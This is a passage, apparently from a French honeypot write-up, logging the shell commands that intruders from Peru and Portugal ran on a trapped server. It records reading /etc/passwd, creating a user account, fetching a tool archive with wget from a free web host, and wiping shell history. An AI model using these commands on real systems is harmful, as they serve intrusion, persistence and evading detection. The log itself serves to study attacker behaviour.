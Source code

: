 À noter qu'aucune backdoor n'est présente dans cette archive (il faut croire qu'il ne comptait pas revenir)  

## Troisième cas  

Les scans pour la journée sont parvenus de Costa Rica ([l'ISP du pays](http://www.ice.go.cr/) gère aussi l'électricité et les télécoms) puis du Mexique  

L'attaquant semblait venir du Pérou (FAI : [telefonica.com.pe](http://www.telefonica.com.pe/))  

Commandes exécutées :  

```bash
uname -a
ps x
ps
bash
ls -a
cd ..
cd
ls -a
cd tmp
cat /etc/passwd
```

reconnexion du visiteur  

```bash
cd videos
cat /etc/issue
ps
ps x
cd /var/tmp
help
adduser oscar
passwd
passwd
uname -a
boot
ls -a
ls
ps
ls -a
ps aux
mkdir ocm
cd ocm
ls -a
bash
wget freewebs.com/h0zk4r/udp.zip
```

Ensuite, il a dû faire appel à un copain portugais (IP différente) qui a lancé les commandes suivantes :  

```bash
unset HISTFILE HISTLOG HISTSAVE SCREEN
w
uname -a
who
wget
id
sh
history -c
exit
```
